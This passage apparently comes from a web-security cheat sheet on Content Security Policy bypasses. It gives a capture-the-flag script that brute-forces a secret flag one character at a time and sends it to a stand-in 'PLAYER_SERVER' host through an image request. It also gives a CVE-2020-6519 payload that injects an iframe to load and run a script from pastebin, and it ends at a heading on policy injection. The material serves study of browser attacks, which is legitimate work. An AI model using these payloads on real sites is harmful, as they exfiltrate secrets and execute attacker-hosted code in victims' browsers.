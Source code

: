```javascript

let alphabet = '_abcdefghijklmnopqrstuvwxyz0123456789'.split('');
let postfix = '}'

async function run() {
    let prefix = 'nn9ed{';
    while (true) {
        let i = 0;
        for (i;i<alphabet.length;i++) {
            let c = alphabet[i];
            let t =  await query(prefix+c); // Check what chars returns TRUE or FALSE
            console.log(prefix, c, t);
            if (t) {
                console.log('FOUND!')
                prefix += c;
                break;
            }
        }
        if (i==alphabet.length) {
            console.log('missing chars');
            break;
        }
        let t = await query(prefix+'}', true);
        if (t) {
            prefix += '}';
            break;
        }
    }
    new Image().src = 'http://PLAYER_SERVER/?' + prefix; //Exfiltrate the flag
    console.log(prefix);
}

run();
</script>
```

### [CVE-2020-6519](https://www.perimeterx.com/tech-blog/2020/csp-bypass-vuln-disclosure/)

```javascript
document.querySelector('DIV').innerHTML="<iframe src='javascript:var s = document.createElement(\"script\");s.src = \"https://pastebin.com/raw/dw5cWGK6\";document.body.appendChild(s);'></iframe>";
```

## Policy Injection

**Research:** [**https://portswigger.net/research/bypassing-csp-with-policy-injection**](https://portswigger.net/research/bypassing-csp-with-policy-injection)\*\*\*\*

### Chrome
